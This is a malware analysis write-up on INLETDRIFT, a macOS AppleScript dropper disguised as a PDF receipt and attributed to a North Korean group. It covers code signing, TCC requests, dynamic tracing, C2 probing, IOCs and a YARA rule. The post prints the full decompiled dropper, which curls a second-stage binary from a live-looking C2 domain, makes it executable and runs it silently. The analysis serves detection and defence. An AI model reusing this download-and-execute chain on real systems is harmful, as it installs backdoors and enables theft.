



# INLETDRIFT: Dissecting the DPRK macOS Backdoor Behind a $50 Million Crypto Heist

**TL;DR**
- AppleScript-based dropper disguised as PDF receipt (.app bundle)
- Signed with stolen/compromised Apple Developer certificate ("Ruth Hall")
- Apple Notarized - passed Apple's automated malware checks
- Requests extensive <span class="glossary-term">TCC</span> permissions (camera, microphone, contacts, system admin)
- Multi-architecture <span class="glossary-term">universal binary</span> (x86_64 + ARM64)
- Attributed to **UNC4736 / Citrine Sleet / AppleJeus** - a DPRK-aligned threat actor

**Sample Source**: This malware sample was obtained from [Objective-See's Malware Collection](https://github.com/objective-see/malware).
---

## Introduction

This analysis documents the reverse engineering of INLETDRIFT, a macOS backdoor used in the October 2024 Radiant Capital incident. A Sophisticated attack that resulted in the theft of approximately $50 million USD in cryptocurrency. The malware is attributed to **UNC4736** (also known as AppleJeus or Citrine Sleet), a threat actor aligned with North Korea's Reconnaissance General Bureau (RGB).

INLETDRIFT employs Living-off-the-Land (LotL) techniques, leveraging native macOS components like AppleScript and the <span class="glossary-term">osascript</span> interpreter to download and execute second-stage payloads while evading detection.

The sample analyzed (`Amber_OTC_RECEIPT.app`) is disguised as a financial document but is actually a compiled AppleScript application bundle containing the dropper. A related sample (`Penpie_Hacking_Analysis_Report.app`) was used in the actual Radiant Capital attack.


*Figure 1: The malware disguised as a PDF document in Finder*

---

## Tools Used

- **otool** - <span class="glossary-term">Mach-O</span> binary inspection and framework analysis
- **codesign** - Code signature and <span class="glossary-term">Notarization</span> verification  
- **osadecompile** - AppleScript bytecode decompilation
- **lldb** - Dynamic analysis and syscall tracing
- **fswatch** - File system event monitoring
- **htop** - Process tree visualization

---

## Sample Metadata

| Property | Value |
|----------|-------|
| **Filename** | `Amber_OTC_RECEIPT.app` |
| **Bundle Identifier** | `com.atokyo.News` |
| **SHA-256 (main.scpt)** | `e3f8abd06d91204c46cbafaf5038807b3d236caf64727dd06e975a589c471284` |
| **MD5 (main.scpt)** | `ff15427d45b84e79b2e81199613041bb` |
| **Architecture** | Universal (x86_64 + ARM64) |
| **Minimum macOS** | 10.6 (x86_64) |
| **Code Signature** | Developer ID Application: Ruth Hall (AGN79H7MTU) |
| **Team Identifier** | AGN79H7MTU |
| **Notarization** | Stapled (Apple approved) |
| **CDHash** | `4b25a414f2511fbfee16754789b3638de89c667a` |
| **Timestamp** | Dec 20, 2022 at 12:07:00 AM |

---

## Initial Triage and Static Analysis

### Bundle Structure

The malware is packaged as a standard macOS application bundle, allowing it to appear as a legitimate application in Finder:

```
Amber_OTC_RECEIPT.app/
├── Contents/
│   ├── Info.plist              # Application metadata
│   ├── PkgInfo                 # Package type identifier
│   ├── MacOS/
│   │   └── applet              # Universal <span class="glossary-term">Mach-O</span> executable (launcher)
│   ├── Resources/
│   │   ├── Scripts/
│   │   │   └── main.scpt       # MALICIOUS APPLESCRIPT PAYLOAD
│   │   ├── applet.icns         # Application icon
│   │   ├── applet.rsrc         # Resource fork data
│   │   └── description.rtfd/   # RTF description
│   └── _CodeSignature/
│       └── CodeResources       # Signature manifest
└── Icon                        # Finder icon
```

The bundle follows Apple's standard AppleScript application format. The `applet` binary in `Contents/MacOS/` is a legitimate Apple-provided AppleScript launcher that executes `main.scpt` from the Resources folder.

---

### Code Signature Analysis

The malware is signed with what appears to be a **stolen or fraudulently obtained** Apple Developer certificate:

```
Authority=Developer ID Application: Ruth Hall (AGN79H7MTU)
Authority=Developer ID Certification Authority  
Authority=Apple Root CA
Timestamp=Dec 20, 2022 at 12:07:00 AM
Notarization Ticket=stapled
Runtime Version=13.0.0
```

> **The malware passed Apple's notarization process.** This means Apple's automated malware scanning did not detect the malicious payload at submission time. The notarization ticket is stapled to the application, allowing it to run without <span class="glossary-term">Gatekeeper</span> warnings on any Mac.

The `runtime` flag (`flags=0x10000`) indicates the application was built with <span class="glossary-term">Hardened Runtime</span>, a requirement for notarization. This demonstrates the threat actor's sophistication in meeting Apple's security requirements.

---

### TCC Permission Requests

The `Info.plist` reveals the malware's intent to request extensive system access through macOS's Transparency, Consent, and Control (<span class="glossary-term">TCC</span>) framework:

| Permission | Usage Description | Threat Level |
|------------|-------------------|--------------|
| `NSAppleEventsUsageDescription` | "Control other applications" | Critical |
| `NSSystemAdministrationUsageDescription` | "Administer this system" |  Critical |
| `NSCameraUsageDescription` | Camera access | High |
| `NSMicrophoneUsageDescription` | Microphone access |  High |
| `NSContactsUsageDescription` | Contacts access | Medium |
| `NSPhotoLibraryUsageDescription` | Photos access | Medium |
| `NSCalendarsUsageDescription` | Calendar access | Medium |
| `NSRemindersUsageDescription` | Reminders access | Medium |
| `NSHomeKitUsageDescription` | HomeKit access | Medium |
| `NSSiriUsageDescription` | Siri access | Medium |
| `NSAppleMusicUsageDescription` | Apple Music access | Low |

The combination of **AppleEvents automation** and **System Administration** permissions indicates the malware intends to:
1. Control other applications programmatically
2. Execute privileged operations without user interaction
3. Potentially harvest data from camera, microphone, and personal information stores

---

### <span class="glossary-term">Quarantine</span> Attribute

The sample retains its <span class="glossary-term">quarantine</span> extended attribute from the Safari download:

```
com.apple.quarantine: 0083;696ebc49;Safari;D4466388-22ED-48A2-8D0A-B160810F9F0E
```

| Field | Value | Meaning |
|-------|-------|---------|
| Flags | `0083` | Downloaded, has been opened |
| Timestamp | `696ebc49` | Unix hex timestamp |
| Source App | `Safari` | Downloaded via Safari |
| UUID | `D4466388-...` | Unique download identifier |

> **Note**: This quarantine attribute is from the sample as downloaded from the Objective-See repository via Safari, demonstrating typical behavior for files obtained through a web browser.

Because the application is **<span class="glossary-term">notarized</span>**, <span class="glossary-term">Gatekeeper</span> will still allow execution despite the <span class="glossary-term">quarantine</span> flag, the <span class="glossary-term">Notarization</span> ticket overrides the typical "downloaded from the internet" warning.

---

## AppleScript Payload Analysis

The core malicious logic resides in `main.scpt`, a compiled AppleScript that orchestrates the entire infection chain using only native macOS utilities. A textbook Living-off-the-Land attack.

### Decompiled Payload

```applescript
set theAtokyoPath to "/Users/" & (do shell script "whoami") & "/Library/Atokyo"
set theAppName to theBasename(POSIX path of (path to me as text))

set theAppUpdateURL to "https://atokyonews.com/CloudCheck.php?type=Update"
set theNewsDataURL to "https://atokyonews.com/CloudCheck.php?type=News"
set theAtokyoSession to "session=28293447382828474738374"

set theNewsData to theAtokyoPath & "/" & theAppName & ".pdf"
set theAppUpdateData to theAtokyoPath & "/Update.tmp"

try
    set theBoolExists to theFileExists(theAtokyoPath)
    if (theBoolExists = "no") then
        do shell script "mkdir " & theAtokyoPath
    end if
    
    -- Download backdoor from C2
    set theUpdateStatus to do shell script "curl " & quoted form of theAppUpdateURL & ¬
        " --output " & theAppUpdateData & " --cookie " & theAtokyoSession
    
    -- Binary morphing: convert downloaded data to executable
    do shell script "chmod +x " & theAppUpdateData
    
    -- Execute backdoor in background (silent)
    do shell script theAppUpdateData & " > /dev/null 2>&1 &"
    
    -- Download and display PDF lure
    set theNewsStatus to do shell script "curl " & quoted form of theNewsDataURL & ¬
        " --output " & theNewsData & " --cookie " & theAtokyoSession
    do shell script "open " & theNewsData
    
on error errorMessage number errorNumber
    set theDialogText to "There are no registered Atokyo-News."
    display dialog theDialogText with icon caution buttons {"OK"}
end try

-- Helper: Check if path exists
on theFileExists(thePath)
    set theBoolExists to do shell script "(ls " & thePath & ¬
        " >> /dev/null 2>&1 && echo yes) || echo no"
end theFileExists

-- Helper: Extract basename from path
on theBasename(thePath)
    if thePath is "/" then return "/"
    if item -1 of thePath is "/" then set thePath to text 1 thru -2 of thePath
    set text item delimiters to "/"
    text item -1 of thePath
end theBasename
```

---

### Technique Analysis

#### 1. Directory Stealth (`~/Library/Atokyo`)

The malware creates a hidden staging directory in the user's Library folder:

```applescript
set theAtokyoPath to "/Users/" & (do shell script "whoami") & "/Library/Atokyo"
do shell script "mkdir " & theAtokyoPath
```

**Why `~/Library/` is ideal staging?**
- Hidden by default in Finder (requires Cmd+Shift+. to view)
- Results of searches are not shown in GUI by Spotlight
- Writable without admin privileges
- Blends with legitimate application data (Chrome, Slack, etc.)

---

#### 2. C2 Communication with Session Tracking

```applescript
set theAtokyoSession to "session=28293447382828474738374"
do shell script "curl " & quoted form of theAppUpdateURL & " --output " & theAppUpdateData & " --cookie " & theAtokyoSession
```

| Indicator | Value |
|-----------|-------|
| C2 Domain | `atokyonews.com` |
| Update Endpoint | `/CloudCheck.php?type=Update` |
| News Endpoint | `/CloudCheck.php?type=News` |
| Session Cookie | `session=28293447382828474738374` |

The hardcoded session cookie likely serves as:
- **Victim tracking** - correlate downloads to specific campaigns
- **Access control** - prevent unauthorized payload retrieval
- **Analytics** - measure infection success rate

---

#### 3. Binary Morphing (`chmod +x`)

```applescript
do shell script "chmod +x " & theAppUpdateData
```

This is the critical **Living-off-the-Land** transformation. The downloaded `Update.tmp` arrives as inert data but is "upgraded" to an executable:

| Before | After |
|--------|-------|
| `-rw-r--r--` | `-rwxr-xr-x` |
| Data file | Executable binary |
| Cannot run | Can be executed |

> **Quarantine Bypass**: Files downloaded via `curl` in a script do NOT receive the `com.apple.quarantine` extended attribute. This allows the backdoor to execute without <span class="glossary-term">Gatekeeper</span> intervention, even on systems with strict security settings.

---

#### 4. Silent Background Execution

```applescript
do shell script theAppUpdateData & " > /dev/null 2>&1 &"
```

| Component | Purpose |
|-----------|---------|
| `> /dev/null` | Discard stdout |
| `2>&1` | Redirect stderr to stdout (also discarded) |
| `&` | Run in background, detach from parent |

The backdoor launches completely silently with no terminal output. The parent `osascript` process can exit while the malware continues running.

---

#### 5. PDF Lure Distraction

```applescript
do shell script "open " & theNewsData
```

The `open` command triggers macOS's Launch Services to display the PDF in the default viewer (Preview). This serves as a **social engineering distraction**:

- User believes they opened a legitimate document
- Attention is diverted from background activity
- No suspicion raised about the .app execution

---

### Error Handling

```applescript
on error errorMessage number errorNumber
    set theDialogText to "There are no registered Atokyo-News."
    display dialog theDialogText with icon caution buttons {"OK"}
end try
```

If any step fails, the malware displays a benign error dialog suggesting a generic "news" issue. This:
- Provides plausible deniability
- Prevents suspicion from error messages
- Matches the fake "news" theme

---

## Dynamic Analysis

Using LLDB to attach to the <span class="glossary-term">osascript</span> process during execution, we captured the malware's syscall activity in real-time.

### LLDB Breakpoint Configuration

```lldb
(lldb) b chmod
Breakpoint 1: libsystem_kernel.dylib`chmod, address = 0x00007ff8803feefe

(lldb) b posix_spawn
Breakpoint 2: libsystem_kernel.dylib`posix_spawn, address = 0x00007ff80840190c

(lldb) b open
Breakpoint 3: 103 locations
```

---

### Captured Shell Execution Chain

#### Stage 1: Liveness Check

The first <span class="glossary-term">posix_spawn</span> hit reveals the malware checking if its staging directory exists:

```lldb
(lldb) x/s 0x6000034701e0
0x6000034701e0: "(ls /Users/hellomalware/Library/Atokyo >> /dev/null 2>&1 && echo yes) || echo no"
```


*Figure 2: LLDB memory examination showing the liveness check shell command*

This matches the <span class="glossary-term">do shell script</span> call (via the `theFileExists()` function) in the decompiled AppleScript. The malware uses shell redirection to silently test for directory presence.

---

#### Stage 2: C2 Payload Download

The second <span class="glossary-term">posix_spawn</span> captures the full `curl` command with C2 communication:

```lldb
(lldb) x/s 0x6000021740a0
0x6000021740a0: "curl 'https://atokyonews.com/CloudCheck.php?type=Update' --output /Users/hellomalware/Library/Atokyo/Update.tmp --cookie session=20293447382028474738374"
```

| Parameter | Value |
|-----------|-------|
| Method | GET (implicit) |
| Target | `https://atokyonews.com/CloudCheck.php?type=Update` |
| Output | `/Users/hellomalware/Library/Atokyo/Update.tmp` |
| Cookie | `session=20293447382028474738374` |

---

### C2 Infrastructure Analysis

Manual testing of the C2 endpoint revealed active infrastructure:

```bash
$ curl -v -k 'https://atokyonews.com/CloudCheck.php?type=Update' \
    --cookie "session=20293447382028474738374"
```

**TLS Handshake Details:**
```
* Connected to atokyonews.com (66.29.141.228) port 443
* SSL connection using TLSv1.3 / AEAD-AES256-GCM-SHA384
* Server certificate:
*   subject: CN=web-hosting.com
*   start date: Mar 13 00:00:00 2025 GMT
*   expire date: Apr  5 23:59:59 2026 GMT
*   issuer: Sectigo RSA Domain Validation Secure Server CA
```

| Property | Value |
|----------|-------|
| **C2 IP Address** | `66.29.141.228` |
| **Server** | LiteSpeed |
| **TLS Version** | 1.3 |
| **Cipher** | AEAD-AES256-GCM-SHA384 |
| **Certificate CN** | `web-hosting.com` (mismatch!) |
| **Hosting** | cPanel shared hosting |


**Certificate Mismatch**: The SSL certificate's Common Name (`web-hosting.com`) does not match the domain (`atokyonews.com`). This indicates the threat actors are using **shared/bulletproof hosting** where multiple domains share a single wildcard or default certificate.

---

### C2 Status (January 2026)

The payload endpoint returns HTTP 404, indicating the backdoor binary has been removed:

```
< HTTP/2 404
< content-type: text/html
< server: LiteSpeed
< x-turbo-charged-by: LiteSpeed
```

The server returns a cPanel-branded 404 page, confirming the infrastructure runs on commodity shared hosting. The payload was likely rotated or removed after the campaign concluded or was detected.


*Figure 3: The C2 endpoint returning HTTP 404, indicating the payload has been removed*

> **Note**: Because the C2 payload is no longer available, the second-stage binary (`Update.tmp`) could not be analyzed. The analysis is limited to the AppleScript dropper and observed network behavior.

---

### Process Tree Observation

During execution, `htop` revealed the process hierarchy:

```
osascript
└── sh -c curl 'https://atokyonews.com/...'
    └── curl ...
└── sh -c (ls /Users/.../Library/Atokyo ...)
    └── ls
```

Each <span class="glossary-term">do shell script</span> command in AppleScript spawns a new `/bin/sh` child process, which then executes the target command. This creates a distinctive process tree pattern useful for behavioral detection.

## Indicators of Compromise (IOCs)

### File System Artifacts

| Path | Description |
|------|-------------|
| `~/Library/Atokyo/` | Staging directory (expected) |
| `~/Library/Atokyo/Update.tmp` | Backdoor binary (expected) |
| `Amber_OTC_RECEIPT.app` | Initial dropper |

### Network Indicators

| Type | Indicator |
|------|-----------|
| Domain | `atokyonews[.]com` |
| IP Address | `66.29.141.228` |
| URL Path | `/CloudCheck.php?type=Update` |
| URL Path | `/CloudCheck.php?type=News` |
| Session Cookie | `session=20293447382028474738374` |
| Server | LiteSpeed (cPanel) |
| TLS Cert CN | `web-hosting.com` (mismatch) |

### Code Signing

| Property | Value |
|----------|-------|
| Developer Name | Ruth Hall |
| Team ID | AGN79H7MTU |
| CDHash | `4b25a414f2511fbfee16754789b3638de89c667a` |

### Hashes

| Algorithm | Hash |
|-----------|------|
| SHA-256 (main.scpt) | `e3f8abd06d91204c46cbafaf5038807b3d236caf64727dd06e975a589c471284` |
| MD5 (main.scpt) | `ff15427d45b84e79b2e81199613041bb` |

---

## Detection Recommendations

### Endpoint Detection

| Detection | Query/Rule |
|-----------|------------|
| Process Tree | `osascript` → `sh` → `curl` chain |
| File Creation | `~/Library/*/Update.tmp` with `chmod +x` |
| Directory Creation | `~/Library/Atokyo` or similar unusual names |
| Code Signature | Team ID `AGN79H7MTU` |

### Network Detection

| Detection | Indicator |
|-----------|----------|
| DNS Query | `atokyonews[.]com` |
| HTTPS to IP | `66.29.141.228:443` |
| Cookie Pattern | `session=\d{23}` in outbound requests |

### YARA Rule

```yara
rule INLETDRIFT_AppleScript_Dropper {
    meta:
        author = "Prathamesh Walunj"
        description = "Detects INLETDRIFT AppleScript dropper used in Radiant Capital heist"
        reference = "https://github.com/objective-see/malware"
        hash = "e3f8abd06d91204c46cbafaf5038807b3d236caf64727dd06e975a589c471284"
    
    strings:
        $s1 = "atokyonews" ascii
        $s2 = "CloudCheck.php" ascii  
        $s3 = "Update.tmp" ascii
        $s4 = "chmod +x" ascii
        $s5 = "/dev/null 2>&1 &" ascii
        $bundle = "com.atokyo.News" ascii
    
    condition:
        3 of ($s*) or $bundle
}
```

### macOS-Specific Detections

| Telemetry Source | What to Monitor |
|------------------|----------------|
| Unified Log | `osascript` spawning shell commands |
| FSEvents | File creation in `~/Library/` with executable bit |
| <span class="glossary-term">EndpointSecurity</span> | `ES_EVENT_TYPE_NOTIFY_EXEC` with <span class="glossary-term">osascript</span> parent |
| <span class="glossary-term">TCC.db</span> | New entries for camera/microphone from unknown apps |

---

## References

1. **Radiant Capital Incident Update**  
   Radiant Capital DAO (December 2024)  
   [https://medium.com/@RadiantCapital/radiant-capital-incident-update-e56d8c23829e](https://medium.com/@RadiantCapital/radiant-capital-incident-update-e56d8c23829e)
2. **North Korean hackers behind $50 million crypto heist of Radiant Capital**  
   Recorded Future News (December 11, 2024)  
   [https://therecord.media/radiant-capital-heist-north-korea](https://therecord.media/radiant-capital-heist-north-korea)

3. **INLETDRIFT**  
   Objective-See Malware Collection  
   Patrick Wardle  
   [https://github.com/objective-see/malware](https://github.com/objective-see/malware)

4. **UNC4736 - Mandiant Threat Intelligence**  
   Google Threat Intelligence Group  
   Attribution: DPRK-aligned threat actor (AppleJeus / Citrine Sleet)

<script>
window.glossaryTerms = {
"TCC": "Transparency, Consent, and Control. macOS privacy framework requiring explicit user consent for sensitive operations like camera, microphone, and screen recording access. Managed via System Preferences and stored in TCC.db.",

"TCC.db": "The SQLite database where macOS stores privacy permissions. Malware may attempt to read or modify this to determine granted access levels.",

"Notarization": "Apple's automated malware scanning service. Developers submit apps for scanning before distribution; notarized apps receive a stapled ticket that bypasses Gatekeeper warnings. INLETDRIFT passed this process.",

"notarized": "A status granted by Apple after an application passes automated security checks. It ensures that the application is from a known developer and contains no known malicious content at the time of scanning.",

"Gatekeeper": "macOS security feature that verifies downloaded applications are signed by identified developers and notarized by Apple before allowing execution.",

"Quarantine": "The com.apple.quarantine extended attribute automatically applied to files downloaded via browsers or email. Triggers Gatekeeper verification on first launch. Files downloaded via curl in scripts bypass this.",

"quarantine": "The state of a file that has been downloaded from the internet and is subject to verification by the operating system before it can be opened.",

"osascript": "Command-line AppleScript interpreter. When this process spawns shell commands, it indicates scripted automation either legitimate or malicious.",

"do shell script": "AppleScript command that executes shell commands via /bin/sh. Each invocation spawns a new process, creating the distinctive process tree observed in this malware.",

"posix_spawn": "Modern macOS/BSD syscall for process creation. Replaces fork()+exec() pattern. Observed in LLDB when AppleScript spawns shell commands.",

"LaunchAgent": "User-level persistence mechanism in macOS. Plists in ~/Library/LaunchAgents/ are loaded at login without requiring admin privileges. Common persistence vector.",

"LaunchDaemon": "System-level persistence mechanism requiring root. Plists in /Library/LaunchDaemons/ run as root at boot.",

"FSEvents": "macOS file system event notification API. Used by EDR products to monitor file creation, modification, and deletion in real-time.",

"EndpointSecurity.framework": "Apple's modern security framework for EDR vendors. Provides kernel-level visibility into process execution, file operations, and network activity.",

"EndpointSecurity": "The primary interface for system-wide monitoring on macOS, allowing authorized security applications to observe and respond to system events.",

"Hardened Runtime": "macOS security entitlement restricting runtime code injection, DYLD environment variables, and debugging. Required for notarization since macOS 10.14.5.",

"CDHash": "Code Directory Hash. Cryptographic hash of the code signature's code directory, uniquely identifying a specific signed binary. Used for allowlisting and blocklisting.",

"Mach-O": "Mach Object file format. Native executable format for macOS and iOS. Contains headers, load commands, and segments. Analyzed with otool and lldb.",

"Universal Binary": "Fat binary containing code for multiple CPU architectures (x86_64 + ARM64). Allows single app to run on Intel and Apple Silicon Macs.",

"universal binary": "A single executable file that contains code for both Intel-based and Apple Silicon-based Mac computers."
};
</script>
